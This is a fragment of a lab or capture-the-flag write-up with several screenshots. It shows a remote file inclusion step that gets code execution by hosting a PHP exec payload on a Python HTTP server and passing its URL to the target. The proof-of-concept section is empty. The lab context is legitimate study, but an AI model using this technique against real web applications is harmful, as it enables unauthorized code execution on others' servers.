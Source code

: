 Nice, we got the flag!

## FOURTH 

![Pasted image 20241105182924.png](../../../../IMAGES/Pasted%20image%2020241105182924.png)

We need to gain RCE in that section, let's check:

![Pasted image 20241105182954.png](../../../../IMAGES/Pasted%20image%2020241105182954.png)

First, let's create a file with the following php code saved as a txt file:

`<?php echo exec("hostname");?>`

![Pasted image 20241105183103.png](../../../../IMAGES/Pasted%20image%2020241105183103.png)

Now, we need to pass the following to the lab:


```ad-note
- Create a python3 server using: `python3 -m http.server`
- Pass in the following input: `http://ip:port/nameoffile.txt`
- Enjoy!

# POC




```


